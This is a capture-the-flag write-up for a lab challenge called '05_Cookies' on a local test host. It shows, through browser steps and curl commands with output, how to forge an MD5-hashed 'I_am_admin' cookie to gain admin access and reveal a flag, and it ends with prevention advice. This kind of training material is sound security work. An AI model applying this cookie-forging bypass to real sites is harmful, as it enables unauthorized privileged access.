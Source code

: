 # 05_Cookies

Unsecure sql request form in the index page (<http://192.168.1.102>)

## Method 1

Go to <http://192.168.1.102>
Next to the url bar click on the site information button
Select cookies, then click the categories to find the `I_am_admin` cookie

The cookie content contains the hash

```

b326b5062b2f0e69046810717534cb09

```

We can use md5 decode to decrypt it and encode a new one

```

b326b5062b2f0e69046810717534cb09 -> md5 decode -> false
true -> md5 encrypt -> b326b5062b2f0e69046810717534cb09

```

In the browser Inspect element. Go the `Application` tab  
Under `Storage` open the `Cookies` section.  
Here we can double click the cookie value and change it to our new hash (`true`).  
Refresh the page and the flag will appear in an alert.


## Method 2

Or if you prefer you can use curl to find the flag
When you run a curl to get information on the page above

```

curl -v -s 'http://192.168.1.102' -o /dev/null

```

#### result

```

kmatjeke% curl -v -s 'http://192.168.1.102' -o /dev/null
* Rebuilt URL to: http://192.168.1.102/
*   Trying 192.168.1.102...
* TCP_NODELAY set
* Connected to 192.168.1.102 (192.168.1.102) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.1.102
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.8.0
< Date: Tue, 05 Mar 2019 03:41:11 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-Powered-By: PHP/5.3.10-1ubuntu3.19
< Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Tue, 05-Mar-2019 04:41:11 GMT
< 
{ [6905 bytes data]
* Connection #0 to host 192.168.1.102 left intact

```

You see that there's a cookie with the value:   I_am_admin=68934a3e9455fa72420237eb05902327;
This looks like a hash (68934a3e9455fa72420237eb05902327)
and after decoding it you get the word "false".
It took me a while to figure this one out,
what if we set that cookie value to an md5 hash of the string true ???

let's find out ...

```

kmatjeke% curl -s 'http://192.168.1.102' -o before.html
kmatjeke% echo -n 'true' | md5
b326b5062b2f0e69046810717534cb09
kmatjeke% curl -s --cookie 'I_am_admin=b326b5062b2f0e69046810717534cb09' 'http://192.168.1.102' -o after.html
kmatjeke% diff before.html after.html
1c1
< <!DOCTYPE HTML>
---
> <script>alert('Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3'); </script><!DOCTYPE HTML>
kmatjeke%

```

we get the flag: df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3

## Prevension

Never save sensitive session information on the browser.
Store information such as an admin on the database or
create the session variable on the back-end where it cannot be accessed.
Even if it means making a dirty protection, to know if you are the admin of a site, you might as well put it in an encrypted session rather than cookies.

